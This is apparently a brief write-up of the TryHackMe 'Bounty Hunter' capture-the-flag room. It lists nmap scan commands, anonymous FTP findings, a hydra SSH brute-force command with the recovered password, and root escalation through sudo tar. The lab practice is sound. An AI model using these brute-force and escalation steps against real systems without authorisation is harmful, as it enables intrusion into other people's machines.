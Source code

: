 # Bounty Hunter
https://tryhackme.com/room/cowboyhacker

export ip=10.10.116.132

Initial Scan: `nmap -sC -sV -vv -oN nmap/initial $ip -T4 -A`
Quick Scan: `nmap -v --min-rate 10000 -p- -oN nmap/quick $ip -T4 -A`

**Findings:**
Port | Service
21 | FTP
22 | SSH
80 | Web Server

Anonymous FTP login available
2 files, some indicators of users & potential passwords
- lin

Most sense is "lin" so we'll bruteforce them.

**Bruteforce**
`hydra -l lin -P locks.txt $ip ssh`
found: RedDr4gonSynd1cat3

Found user flag!

**Privesc**
`sudo -l`
> (root) /bin/tar

https://gtfobins.github.io/gtfobins/tar/#sudo

Gained root & found root flag!
